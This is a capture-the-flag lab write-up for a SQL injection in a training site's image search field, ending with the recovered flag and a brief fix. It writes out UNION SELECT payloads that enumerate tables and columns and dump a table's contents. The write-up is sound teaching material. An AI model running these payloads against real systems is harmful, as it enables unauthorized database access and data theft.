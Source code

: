 # 01_Inject_me_img

The GET parameter in the image search form is vulnerable.

## Method

Go to ?page=searchimg.  
In the search field, search `1 AND 1=1`

## How to exploit

In the search field, run `-1 union select null, concat (table_name) from information_schema.tables where table_schema = database ()`  
This will return a table name.  
Then, in the same search field, run `-1 union select null, concat (column_name) from information_schema.columns where table_schema = database ()`  
This will return the column names.  
Lastly, in the search field, run `-1 union select NULL, concat (id, url, title, comment) from list_images`  
This will return the images from the table, with one of the entries being:

```If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 ```  

MD5 decrypt: `1928e8083cf461a51303633093573c46`  
Follwed by sha256: `albatroz`  
Flag: `F2A29020EF3132E01DD61DF97FD33EC8D7FCD1388CC9601E7DB691D17D4D6188`

## Solution

- Send form as POST request
- Add prepared statements to backend to prevent SQL injection
